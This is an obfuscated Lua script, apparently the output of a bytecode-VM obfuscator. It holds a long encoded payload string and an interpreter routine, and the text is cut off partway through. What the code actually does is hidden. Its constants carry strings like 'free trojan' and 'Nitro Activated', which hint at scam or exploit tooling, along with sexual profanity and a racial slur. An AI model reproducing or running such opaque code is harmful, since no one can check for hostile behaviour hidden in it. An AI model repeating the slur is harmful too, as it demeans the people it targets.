 ئنكزڪضڝحقڝټټحؠككدضدحسڝؠحڪنضزنئڝحئڝكآڪنجزقئټححڝزآآندزسئؠحدڝضآنكڝزئئكج؃ڝجآقكڪزحنئدآڝدآسنټز؃ئضدؠڪڝحنككسڪئججڪڪټآحكقسآئندسڪآآ؃ددسنئجئدڪكؠڪكجزدجټدجڪزؠآټئسسجؠد؃ڪسؠنقڝسئجؠحسڪجؠكقټسئجز؃آڪدآقكڪس؃جس؃نڝنؠئقكضڪئض؃قټټؠجقزسقجد؃سټؠآحقضضنجد؃ئئجنڪقجضقئټ؃حټزنڪقدضقحؠجكټضؠآزڝضئحټڝڪددنقزټضححزڝآټدنقزؠضئحضڝنآڝنئزكئڪحئڝقآټنحزكئآحدڝسآؠندزضئؠدڝڝسآكؠڪزجئقدڝڝحآقكآؠزئسحټڝ؃آضكټسڝؠجدكڪڪآجننزؠئحدؠڪآڝضكسسؠئ؃دضڪنؠڝكسسكئحدجڪنؠټؠحسزجآدئڪسؠټك؃نآجنحدڪئؠككجسجقك؃ټڪحؠزقآسدجس؃ڪڪ؃ؠنقنسدجئحكټڪؠجقآضټجض؃زڝآؠدكقضؠج؃؃ؠټن؃؃قئضكحڪ؃جټقنټقسضزجح؃دټقنؠن؃ضضحن؃ئټئنآزڪزجحق؃ڝټحنزقجضدنڝڝؠټ؃نضزنزجحئڝڪآڪننزقئڝححدزآآندزآئؠححڝضددكڝقسئكدڪڝؠآق؃ضزحئزدآڝدآسكؠزسئضححڪڝآسككقڪئجدقڝئآحكټسآسددسڝټآ؃كضزججڝزآڪكؠڪكجسقجټدحڪڪؠآكنسسجټد؃؃ضؠنقڝسآجكد؃ڪجڝڝقټزئجز؃آڪؠؠسكضس؃جض؃نټڝؠئقكسسججدحټټؠئقززآقئ؃سڪئؠ؃قټضنئڝ؃ئڪؠنڪقجسجحټدجټزنآقدضسحؠ؃؃ټڪننقنضئحؠڝڪڝجنقزټضآحزڝڪټدڪټزؠسححضڝنټؠنئڝنئڪحجڝقآټنحززضسحد؃حآؠنحزضسندڝڝئټئكڪزټئقجټڝحټككآزدضجدؠجحآضكنسڝئئدكڪڪآڪكقزنئحدكڪآڪدكسسؠئآدضڪآؠڝټؠسكض؃ضئڪقآؠكحؠڝجآددڪسؠؠككسضئس؃ڝڝحؠكك؃سجضقسنڪحآئقآسټجسحؠڪ؃آزآؠضڝئج؃كڝحؠجققضټجحد؃ټآؠڪقسسنج؃؃زټنآڝڪدضكجآ؃جڪجنټؠڝضزجڪئحټسؠؠق؃كنحنڝڝټئؠؠؠڝضججكڝټڝئنززآضدحقدجټ؃ؠززنض؃حئڝكآڪنجټسئټج؃ڝزټڪندززئؠئ؃ضحآننټزئضئدڪج؃آقنڝؠجئزحآڝد؃ؠكؠز؃ئضحآج؃آئننسڪسضدقڪټآحككقئئدحقڪؠآئكضسنجڝدئئزؠڪندسقئڝدحڪقؠآؠدآججؠدڪڪضآدقڝندجكح؃حئؠقكټسحئح؃آڪدؠسكټندجضدؠټڝټسقكضڪجج؃نڝضؠحككضآجؠ؃سټؠؠ؃قضؠقحڝدحټكآ؃قجضكحټححجئنآقڝضسجح؃؃دحننكدكضحك؃ڪټجج؃زټضححز؃ڪدحنسقآض؃ئزڝنآڝنئزؠسسحج؃نآټنكززئآحدڝسحكن؃قجئنجدڝئآنكڪكجنضدټ؃؃آزنضزدقجدؠ؃ح؃سكنزڝئئج؃ڪڪآجكقزڝقجدزڝټآدؠقسؠئ؃دضڪآټزكئزؠجڪدكڪقؠټكحسزكنددڝئؠؠنحسضجؠ؃ڝ؃ئدسقڪزدجقدسڪحڝئقآزجزز؃ؠڝ؃ؠضكجضڝجئ؃كڝ؃ڝئققسڪجححكټآؠدقسضټئق؃ضڪآنڝكدضكحڪ؃جټق؃ؠقحسضحآدجټسنآق؃زضقزڝڝڪحنكقزضجسضڝټڪئڪقزآسدحسجآټ؃نضزنسدسضڝكټڝنجكنئټححڝزآڪؠكزسضټح؃ڝنآنكڝزئئكض؃ڝجټسكټقئئزدټڝدڪسكؠز؃ضجدنڝئآئؠسسڪضضدقڪټټحكزكسئددسڪؠټحكضسنض؃دئسڪؠڪكجسقئڝدحڪزآڪكدؠضجؠد؃ڪضټنقڝسئئؠ؃ڪڝضؠق؃نسحضز؃آڪدآققؠزحجضضئټڝؠنكنضڪئس؃قڪ؃ؠحققضآجح؃سټؠآئقضضنحڝ؃ضټكنڪقجضقزؠ؃حڪضنآكئضسحآ؃؃ټضننزڝسححكڝڪټجنقزټسئحزڝآټڝنسكڪض؃حضڝنڪدنئزكضآحجددآټنحززضڪحدڝسټنن؃ټڝئندڝڝئڪككڪزجضزدټ؃دآزټحزدضقدؠڝ؃ټسكنآزئئدكڪڪآجكقسټضددزڝټآدكقسؠس؃دضڪنآڪكئزقجڪسټڪقؠټكحسزئؠددڝسؠؠك؃سضجنس؃ڪئآزقڪسججقدټڪحؠؠؠكسدجس؃ؠضجؠضقؠضڝئسدڝټڪآسققندجح؃زټآټدؠآضؠئج؃ضڪټنڝقزضكئ؃دكټقآدقحزنحآ؃دټسآؠؠسضضجڝڝڝڪسنكڝسضجحقضؠټحؠنزآسسحسڝآټ؃نؠؠڝئڝجحڝكجآنجزكئټحئڝزټ؃آڪزسئؠح؃سجآنن؃زئسكزؠڝجټسكټزڝئزسڪڝدټقټآز؃ضضدندسآئككسڪضضضكڪټټجكزككئددسڪؠټحنؠسنضددئ؃آؠڪكجسقجڝحنڪزآڝكدسڝجؠد؃ڪضؠنڪټسئئز؃ڪڝسؠققڪسحضزسكڪدآئقؠسټجضئزټڝآسآنضڪئج؃قدحؠحقزضآئجئزټؠآدقضقزحڝ؃ئټكؠ؃كؠضقجڝ؃حڪحنآقدضسحؠضڪټضؠقزڝسسحكڝڝټجآقټنضحجضڝآټڪنسؠقض؃جزجؠآڝؠئزكضآحجڝقآټؠئؠقئآجحڝسڝقن؃زضئنحد؃آآكؠ؃زجئقدټڝحآزكآنسئسحكڝ؃ټزكنز؃ئئجكڪڪآجنسسټئزدزضزآدنقسؠئ؃حضڪنڝنكئسكجڪحضڪقؠټنجسزسڪددڪسؠؠنحسضجنحدڪئجآقڪسججقدڝڪحؠزكڝسدكح؃ؠڪ؃ؠضقآززجئدټټڪؠؠققضټجح؃زجنؠدكئضؠئئ؃ضټؠنڝقئكآحڪ؃جټقنڪقحضزحآ");local U=(-118+0xa1)local o=15 local l=d;local e={}e={[(180/0xb4)]=function()local i,d,e,n=z(T,l,l+C);l=l+p;o=(o+(U*p))%a;return(((n+o-(U)+r*(p*_))%r)*((_*A)^_))+(((e+o-(U*_)+r*(_^C))%a)*(r*a))+(((d+o-(U*C)+A)%a)*r)+((i+o-(U*p)+A)%a);end,[(((-#"free trojan"+(0xccb/25))-0x72)+-#'Bong')]=function(e,e,e)local e=z(T,l,l);l=l+c;o=(o+(U))%a;return((e+o-(U)+A)%r);end,[(-#[[me big peepee]]+(((-1150/0x2e)+-#"Hi skid")+48))]=function()local n,e=z(T,l,l+_);o=(o+(U*_))%a;l=l+_;return(((e+o-(U)+r*(_*p))%r)*a)+((n+o-(U*_)+a*(_^C))%r);end,[(0x3e8/250)]=function(l,e,o)if o then local e=(l/_^(e-d))%_^((o-c)-(e-d)+c);return e-e%d;else local e=_^(e-c);return(l%(e+e)>=e)and d or y;end;end,[((0x3e+-49)+-#"cum fuck")]=function()local o=e[(0xa3/163)]();local l=e[((-61+0x51)+-#[[I like gargling cum]])]();local i=d;local n=(e[(-57+(9028/0x94))](l,c,j+p)*(_^(j*_)))+o;local o=e[(-#'print'+(2088/0xe8))](l,21,31);local e=((-d)^e[(88+-0x54)](l,32));if(o==y)then if(n==v)then return e*y;else o=c;i=v;end;elseif(o==(r*(_^C))-c)then return(n==y)and(e*(c/v))or(e*(y/v));end;return K(e,o-((a*(p))-d))*(i+(n/(_^J)));end,[((-71+0xa)+0x43)]=function(n,i,i)local i;if(not n)then n=e[(0x4d+-76)]();if(n==y)then return'';end;end;i=q(T,l,l+n-d);l=l+n;local e=''for l=c,#i do e=I(e,F((z(q(i,l,l))+o)%a))o=(o+U)%r end return e;end}local function y(...)return{...},H('#',...)end local function T()local i={};local n={};local o={};local x={i,n,nil,o};local l={}local h=(-#'Fuck nigger wank shit dipshit cunt bullshit fuckyou hoe lol'+(29718/0xea))local o={[(-#'test 123'+(0x6c-100))]=(function(o)return not(#o==e[((1520/0x98)+-#"cum fuck")]())end),[(132/((1160/0x8)+-#'me big peepee'))]=(function(o)return e[(33-0x1c)]()end),[(0xe4/76)]=(function(o)return e[(0x43-(-#[[amena jumping]]+(-123+0xc5)))]()end),[(0x23+(0x11-50))]=(function(o)local n=e[(136-0x82)]()local o=''local e=1 for l=1,#n do e=(e+h)%a o=I(o,F((z(n:sub(l,l))+e)%r))end return o end)};for e=c,e[(-#[[Cock and ball torture]]+(0x6a-84))]()do n[e-c]=T();end;x[3]=e[(28-0x1a)]();local n=e[((0x66c/137)+-#'Little kids')]()for n=1,n do local e=e[(-0x79+123)]();local d;local e=o[e%(7488/0xc0)];l[n]=e and e({});end;for a=1,e[(-#'Nitro Activated'+(142-0x7e))]()do local o=e[(117+-0x73)]();if(e[(52-0x30)](o,d,c)==v)then local r=e[(0x43-63)](o,_,C);local n=e[((90-0x52)+-#'test')](o,p,_+p);local o={e[(510/0xaa)](),e[((-#'require'+(-116+0x68))+22)](),nil,nil};local x={[(-#[[looadstring]]+(2299/0xd1))]=function()o[N]=e[(486/0xa2)]();o[D]=e[(0xe4/(0x2b58/146))]();end,[(55+-0x36)]=function()o[g]=e[((131+-0x78)+-#[[loadstring]])]();end,[(0x3d+-59)]=function()o[b]=e[((-#[[free trojan]]+(1036/0x1c))-25)]()-(_^j)end,[((-0x58+129)-0x26)]=function()o[t]=e[(-0x54+85)]()-(_^j)o[M]=e[(79-0x4c)]();end};x[r]();if(e[((0x18470/113)/0xdc)](n,c,d)==c)then o[w]=l[o[O]]end if(e[((-103+0x80)+-#"Never gonna give u up")](n,_,_)==d)then o[N]=l[o[b]]end if(e[(((0xa3+-32)-113)+-#"zNugget is dad")](n,C,C)==c)then o[D]=l[o[D]]end i[a]=o;end end;return x;end;local function v(e,p,U)local a=e[_];local o=e[C];local I=e[d];return(function(...)local T=H('#',...)-c;local l={};local r=o;local F={};local j={};local z=a;local o=d;local y=y local A={...};local e=d e*=-1 local C=e;local a=I;for e=0,T do if(e>=r)then F[e-r]=A[e+c];else l[e]=A[e+d];end;end;local e=T-r+d local e;local r;while true do e=a[o];r=e[(0x56-85)];n=(2120992)while r<=(214-0xa6)do n-= n